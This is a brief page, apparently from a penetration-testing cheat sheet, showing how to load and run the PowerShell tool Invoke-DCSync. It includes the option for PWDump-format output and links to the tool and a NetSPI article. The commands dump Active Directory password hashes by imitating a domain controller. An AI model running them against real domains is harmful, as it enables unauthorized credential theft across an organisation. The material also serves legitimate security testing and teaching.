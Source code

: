 # Invoke-DCSync

```
PS C:\> . .\Invoke-DCSync.ps1

PS C:\> Invoke-DCSync
```

- Hashdump format

```
PS C:\> Invoke-DCSync -PWDumpFormat
```

---
## References

- [Invoke-DCSync](https://github.com/pentestfactory/Invoke-DCSync)

- [NetSPI: Hashdump without the DC using DCSync (because we all wanted it)](https://www.netspi.com/blog/technical/web-application-penetration-testing/invoke-dcsync-because-we-all-wanted-it)